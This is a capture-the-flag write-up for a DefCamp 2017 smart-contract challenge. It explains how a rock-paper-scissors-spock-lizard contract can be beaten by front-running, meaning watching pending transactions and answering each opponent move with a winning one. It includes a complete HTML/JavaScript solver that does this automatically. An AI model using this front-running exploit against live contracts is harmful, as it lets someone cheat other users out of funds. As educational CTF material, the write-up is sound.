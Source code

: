 ## spock-lizard-alpha

### Description
You have to "play_the_game" and win against our bot. Are you strong enough?

The victim: https://dctf.def.camp/finals-2017-lpmjksalfka/DctfChall.sol
The API: alpha.dctf-f1nals-2017.def.camp
Transaction API: https://dctf.def.camp/finals-2017-lpmjksalfka/sample.html

*PS: I've made a cron to reset blockchain so you won't have to wait too much for minning.*

### Author: 
Andrei

### Stats: 
400 points / 1 solver

### Solution
Based on the challenge description, you receive two APIs with some functionalities such as:
- get_balance: returns the number of ETH a wallet holds
- new_cold_wallet: create a wallet which can be unlocked by a password
- send_money: send eth to other account
- call_contract: call a function from a smart contract
- get_flag: returns the flag if you solved the problem
- get_victim: returns a smart contract address which is supposed to be the target for the game
- play_the_game: a function that spawns a game between a victim smart contract and another player

Looking at the source code of the DctfChall.sol you can see that the smart contract is bassically a game of *rock, paper, scissor, spock, lizard*. It can be played by two players and you can choose one of the 5 options available (from 1 to 5).

The Winner player is decide based on the **getWinner()** function:
```javascript
	function getWinner(uint8 option1, uint8 option2) internal returns (uint8) {
		if(option1 == option2) {
			return 0;
		}

		if(option1 == 0x1) {
			if(option2 == 0x3 || option2 == 0x5) return 1;
			return 2;
		}

		if(option1 == 0x2) {
			if(option2 == 0x1 || option2 == 0x4) return 1;
			return 2;
		}

		if(option1 == 0x3) {
			if(option2 == 0x2 || option2 == 0x5) return 1;
			return 2;
		}

		if(option1 == 0x4) {
			if(option2 == 0x3 || option2 == 0x1) return 1;
			return 2;
		}

		if(option1 == 0x5) {
			if(option2 == 0x4 || option2 == 0x2) return 1;
			return 2;
		}

		return 0;//should never get here
}
```

The goal is to make the **getFlag()** function to answer with *"this guy should receive the reward"* when is being called by the Admin Bot.

``` javascript
function getFlag() 
	onlyIfIsPro
	public
	returns (string)
	{
		return 'this guy should receive the reward';
	}
    
    modifier onlyIfIsPro() {
    	require(solvedHistory[msg.sender] >= 10 && solvedHistory[msg.sender] == triesHistory[msg.sender]);
    	_;
    }
```
As you can see above, this is going to happen only if you win 10 times in a row but never loose a game.

##### The solution
The idea is pretty simple, we can "subscribe" to all transactions being made on the blockchain against a specific address by using the API available in the **sample.html**. 
```javascript

$(document).ready(function() {
	client = io.connect('http://45.76.94.172:8080');

	/* receive transactions based on web3.eth.subscribe('pendingTransactions') */
	client.on('transaction', function(data) {
		console.log('transaction', data); 
	});

	client.on('connect', function() {
		console.log('connected');
		client.emit('listen_for', mytarget);
	});
});
```
Thus, we **can see** what other player/bot sent to the targetted smart contract and come up with an option that can secure each time our victory. The vulnerability is called [Transaction-Ordering Dependence (TOD) / Front Running](https://consensys.github.io/smart-contract-best-practices/known_attacks/#transaction-ordering-dependence-tod-front-running) and is bassically some sort of Race Condition by knowing what the contract would do based on code logics. 

##### The solver
```html

<html>
<head>

<script src="https://cdn.socket.io/socket.io-1.4.5.js"></script>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>

<script>
var client;
var myaddress  = '0xPLAYER_ADDRESS';
var mypassword = 'password for players wallet';
var mytarget   = '0xVICTIM_WALLET';

var winners = [
	[0,0,0,0,0,0],
	[0,0,2,1,2,1],
	[0,1,0,2,1,2],
	[0,2,1,0,2,1],
	[0,1,2,1,0,2],
	[0,2,1,2,1,0]
];

//seek for a winner based on the first player's option
function getWinner(option1) {
	for(var i=1;i<=5;i++) {
		if(winners[option1][i] == 2) {
			return i;
		}
	}
	return option1; //shouldn't get there
}

$(document).ready(function() {
	client = io.connect('http://45.76.94.172:8080');

	client.on('transaction', function(data) {
		console.log('transaction', data, data.from, myaddress);
		if(data.from.toLowerCase() != myaddress.toLowerCase() && data.input != '0x' && data.input.indexOf('0xf94e349d') !== -1) {
			var option = data.input.slice(-1);
			if(1 <= option && option <= 5) {
				winner_option = getWinner(option);
				console.log('sending winner option for combination: ', option, winner_option);
				$.post('https://alpha.dctf-f1nals-2017.def.camp/', {
					function:'call_contract',
					abi: '[{"constant":true,"inputs":[],"name":"totalinvested","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[{"name":"","type":"address"}],"name":"solvedHistory","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"bot","outputs":[{"name":"","type":"address"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"totalplayers","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"minbet","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[],"name":"owner","outputs":[{"name":"","type":"address"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":true,"inputs":[{"name":"","type":"address"}],"name":"triesHistory","outputs":[{"name":"","type":"uint256"}],"payable":false,"stateMutability":"view","type":"function"},{"constant":false,"inputs":[],"name":"play","outputs":[{"name":"","type":"uint8"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"player","type":"address"}],"name":"isPlaying","outputs":[{"name":"","type":"bool"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[],"name":"reset","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"newOwner","type":"address"}],"name":"transferOwnership","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"constant":false,"inputs":[{"name":"option","type":"uint8"}],"name":"choose","outputs":[],"payable":true,"stateMutability":"payable","type":"function"},{"constant":false,"inputs":[],"name":"getFlag","outputs":[{"name":"","type":"string"}],"payable":false,"stateMutability":"nonpayable","type":"function"},{"inputs":[{"name":"_minbet","type":"uint256"},{"name":"_bot","type":"address"}],"payable":false,"stateMutability":"nonpayable","type":"constructor"},{"payable":true,"stateMutability":"payable","type":"fallback"}]',
					address: mytarget,
					from: myaddress,
					password: mypassword,
					func:'choose',
					params:JSON.stringify([winner_option]),
					value:'10000000000000',
					type:'standard',
					gas:'2000000',
					gasPrice:0
				}, function(data) {
					console.log(data);
				});
			}
		} 
	});

	client.on('connect', function() {
		console.log('connected');
		client.emit('listen_for', mytarget);
	});
});
</script>

</head>
<body>
</body>
</html>
```
